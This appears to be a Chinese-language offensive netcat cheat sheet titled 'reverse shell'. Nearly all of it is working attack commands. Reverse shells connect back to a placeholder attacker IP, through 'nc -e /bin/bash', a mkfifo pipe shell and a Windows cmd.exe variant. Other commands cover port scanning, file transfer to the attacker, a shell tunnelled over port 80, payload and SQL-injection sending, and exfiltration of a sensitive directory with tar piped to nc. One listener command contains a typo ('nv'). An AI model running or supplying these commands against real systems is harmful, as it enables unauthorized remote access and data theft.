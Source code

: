 ```yaml
---
title: 反向shell
categories:
  - cybersec
description: 反向shell
date: 2025-03-17 12:31:27
tags:
---
```


```bash

语法：nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
		  [-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
参数：
  -g<网关>         设置路由器跃程通信网关，最多可设置8个。
  -G<指向器数目>   设置来源路由指向器，其数值为4的倍数。
  -h               在线帮助。
  -i<延迟秒数>     设置时间间隔，以便传送信息及扫描通信端口。
  -l               监听模式，用于入站连接 (监听本地端口)。
  -n               直接使用IP地址，而不通过域名服务器。
  -o<输出文件>     指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
  -p<通信端口>     设置本地主机使用的通信端口。
  -r               随机指定本地与远端主机的通信端口。
  -s<来源位址>     设置本地主机送出数据包的IP地址。
  -u               使用UDP传输协议。
  -v               显示指令执行过程。
  -w<超时秒数>     设置等待连线的时间。
  -z               使用0输入/输出模式，只在扫描通信端口时使用。
 
```
# 信息收集

## 验证目标主机是否开放特定端口

`nc -zv 目标IP 端口范围  # 例：nc -zv 192.168.1.100 20-443`  

## 获取服务指纹信息（如SSH、HTTP版本）

`echo "HEAD / HTTP/1.0\n\n" | nc 目标IP 80`

# 建立反向 shell

## 1.攻击者监听端口

`nv -lvnp 4444`

## 2.目标机连接攻击者

```bash

# linux
nc -e /bin/bash 攻击者IP 4444  # 直接反弹Shell

## 无 -e 参数时

mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 攻击者IP 4444 > /tmp/f # 使用管道实现交互式Shell

# Windows
nc.exe 攻击者IP 4444 -e cmd.exe

```

# 文件传输

## 发送文件到目标

```bash

# 接收方（攻击者）监听：
nc -lvnp 4444 > received_file

# 发送方（目标）上传文件：
nc 攻击者IP 4444 < 本地文件

```

## 从目标下载文件

```bash
# 接收方（攻击者）准备接收：
nc -lvnp 4444 > 保存路径/文件名

# 发送方（目标）发送文件：
nc 攻击者IP 4444 < 目标文件

```

# 端口转发与代理

## 简单端口转发

将本地端口流量转发到远程主机：

`nc -lvnp 本地端口 -c "nc 目标IP 目标端口"`

## 双向中继（Relay）

通过命名管道实现双向流量转发：
```Bash
mkfifo /tmp/pipe
nc -lvnp 4444 < /tmp/pipe | nc 目标IP 80 > /tmp/pipe
```

# 网络隧道

```Bash
# 目标机通过80端口连接攻击者：
nc 攻击者IP 80 -e /bin/bash

# 加密隧道（需配合其他工具）
# 使用cryptcat（加密版nc）或ncat（支持SSL）：
ncat --ssl -lvnp 4444  # 监听加密端口

```

# 漏洞利用辅助

```bash

# 手工发送Payload
# 测试缓冲区溢出或注入漏洞时直接发送数据：
echo -e "AAAA...恶意Payload..." | nc 目标IP 漏洞端口

# HTTP请求构造
# 快速发送自定义请求测试Web漏洞（如SQL注入）：
echo -e "GET /page?id=1' AND 1=1-- HTTP/1.1\nHost: target.com\n\n" | nc target.com 80
```

# 后渗透利用

```bash
# 横向移动
# 通过已控制的机器作为跳板扫描内网：
nc -zv 内网IP 端口范围

# 数据外传
# 窃取敏感文件后通过DNS或ICMP隧道外传（需配合其他工具）：
tar zcf - 敏感目录 | nc 攻击者IP 4444

```